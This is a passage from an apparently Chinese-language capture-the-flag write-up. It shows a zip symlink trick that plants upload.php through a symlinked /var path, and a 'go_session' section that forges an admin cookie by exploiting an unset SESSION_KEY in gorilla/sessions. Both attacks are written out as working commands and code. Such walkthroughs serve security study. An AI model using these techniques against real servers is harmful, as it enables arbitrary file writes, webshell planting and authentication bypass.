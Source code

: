 test.zip

```bash
ln -s /var test
zip -y test.zip test
```

a.zip

```python
import zipfile

zf = zipfile.ZipFile('a.zip', 'w')
zf.write('upload.php', 'test/www/html/upload.php')
zf.close()
```

依次上传 test.zip a.zip

![image-20230527112032235](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305271120772.png)

![image-20230527112050696](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305271120724.png)

## go_session

session 由 gorilla/sessions 实现, 并且 session key 从环境变量中获得

```go
var store = sessions.NewCookieStore([]byte(os.Getenv("SESSION_KEY")))
```

/admin 路由需要 session name 为 admin 才能访问, 里面调用了 pongo2 来实现模版解析

/flask 路由可以访问到本机 5000 端口的 flask, 但是根据报错信息泄露的源码来看只有一个没有用的路由, 不过开启了 debug 模式

![image-20230527130028770](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305271300809.png)

试了一会发现 `os.Getenv` 如果获取不存在的环境变量就会返回空值

所以瞎猜一波题目服务器上并没有设置 `SESSION_KEY`

本地随便改一下源码, 把 cookie 复制下来扔到服务器上

```go
var store = sessions.NewCookieStore([]byte(""))

func Index(c *gin.Context) {
	session, err := store.Get(c.Request, "session-name")
	if err != nil {
		http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
		return
	}
	if session.Values["name"] == nil {
		session.Values["name"] = "admin"
		err = session.Save(c.Request, c.Writer)
		if err != nil {
			http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
			return
		}
	}

	c.String(200, "Hello, admin")
}
```
